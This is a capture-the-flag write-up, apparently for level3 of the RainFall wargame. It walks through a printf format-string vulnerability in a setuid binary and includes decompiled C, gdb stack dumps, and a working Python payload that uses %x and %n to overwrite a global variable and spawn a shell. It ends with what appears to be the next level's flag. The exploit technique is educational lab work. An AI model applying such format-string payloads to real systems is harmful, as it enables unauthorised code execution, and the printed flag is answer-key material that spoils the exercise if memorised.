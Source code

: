 ## Flag3 README: Finding Flag3

After connection on our vm with:
```bash
ssh level3@localhost -p 4242
```
We finded a binary program called level1.
if we decompile it we got this
```C
int v()
{
  int result; // eax
  char s[520]; // [esp+10h] [ebp-208h] BYREF

  fgets(s, 512, stdin);
  printf(s);
  result = m;
  if ( m == 64 )
  {
    fwrite("Wait what?!\n", 1u, 0xCu, stdout);
    return system("/bin/sh");
  }
  return result;
}
```
so we clearly understand that we need to change m to be equal to 64.
firstly we need to decompile it and search for m variable.
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
so we see that the decompilation didn't work
and it s more something like this
```C
result = RandomVariable
if randomvariable == 64 then we continue
```

And there is an known exploit with printf when you make in only print a variable like this :
```C
printf(foo)
```
to be safe he need to be like this :
```C
printf("%s", foo)
```

So let's exploit this.

The idea of the exploit is to print and mofify adress by adding sone %x and %n.
firstly we need to know when you are writing to the stack and at what adress.
So for exemple if if print  AAAA.%x.%x.%x.%x. this is the result :
AAAA.%x.%x.%x.%x.
AAAA.200.b7fd1ac0.b7ff37d0.41414120.
So lets decompile the stack after puting some AAAA inside it.

200 b7fd1ac0 b7ff37d0 is our sequence that are before in the stack. Let's verify it :
(gdb) x/32x $esp
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff520:	0x41414141	0x2e78252e	0x252e7825	0x78252e78
0xbffff530:	0xbf000a2e	0xb7fde2d4	0xb7fde334	0x00000007
0xbffff540:	0x00000000	0xb7fde000	0xb7fff53c	0xbffff588
0xbffff550:	0x00000040	0x00000b80	0x00000000	0xb7fde714
0xbffff560:	0x00000098	0x0000000b	0x00000000	0x00000000
0xbffff570:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffff580:	0x00000000	0xb7fe765d	0xb7e3ebaf	0x080482bb

So we can see that our sequence is locating in here :
0xbffff510:	0xbffff520	0x00000200	0xb7fd1ac0	0xb7ff37d0


0xbffff520:	0x41414141 this is our 4 A

Then we will have to put the target adress (0x804988c) at the begining in the payload by replacing the AAAA it will be write in the stack at the positions 5 let's check it:

python -c 'print("\x8c\x98\x04\x08" + "%20x"*3 + "%n")'
<<< $(python -c 'print("\x8c\x98\x04\x08" + ".%x."*4)')
�.200..b7fd1ac0..b7ff37d0..804988c.

yep we can see that the last is our value puted in the front.

so now lets work with %n that will be writing the length of the string up to that point.

so what we need is to put a lot of charactere before it.And we know that the value we need to search is 64.

and by trying and each time printing the value we realize that was the payload to do :

level3@RainFall:~$ python -c 'print("\x8c\x98\x04\x08" + " %x. " * 2 + "%43x" + "%n")' > test3
level3@RainFall:~$ cat test3 - | ./level3
� 200.  b7fd1ac0.                                    b7ff37d0
Wait what?!
whoami
level4


b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

